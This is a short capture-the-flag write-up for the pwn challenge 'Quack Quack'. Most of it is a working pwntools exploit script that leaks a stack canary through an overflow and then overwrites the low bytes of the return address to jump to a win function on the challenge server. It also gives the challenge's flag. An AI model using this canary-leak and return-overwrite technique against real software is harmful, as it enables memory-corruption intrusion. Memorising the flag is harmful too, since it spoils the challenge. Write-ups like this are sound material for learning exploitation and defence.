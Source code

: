 https://ctftime.org/event/2674

# Quack Quack (pwn)

On the quest to reclaim the Dragon's Heart, the wicked Lord Malakar has cursed the villagers, turning them into ducks! Join Sir Alaric in finding a way to defeat them without causing harm. Quack Quack, it's time to face the Duck!

## Solution

1) Leak the canary
2) ret2win ~ using the 2 controlled bytes of the return address

```python
#!/usr/bin/env python3

from pwn import *

#context.log_level = "debug"
elf = ELF("./quack_quack_patched", checksec=False)
context.binary = elf

#p = elf.process()
#p = elf.debug(gdbscript="b duckling")
p = remote("94.237.55.91", 33274)

payload = b""
payload += b"Quack Quack "
payload = payload.rjust(0x65, b"Q")

p.sendlineafter(b"Quack the Duck!\n\n> ", payload)

p.readuntil(b"Quack Quack ")

canary = u64(b"\x00" + p.read(7))

payload = b""
payload += b"Q" * 0x58
payload += p64(canary) + p64(0)
payload += p16(elf.sym["duck_attack"] & 0xffff)

p.sendline(payload)

p.readuntil(b"HTB{")
print("HTB{" + p.readuntil(b"}").decode()) # HTB{~c4n4ry_g035_qu4ck_qu4ck~_d013ad2c60990274d4b4e73c5d6713a2}
```

## Flag
`HTB{~c4n4ry_g035_qu4ck_qu4ck~_d013ad2c60990274d4b4e73c5d6713a2}`

smiley 2025/03/23
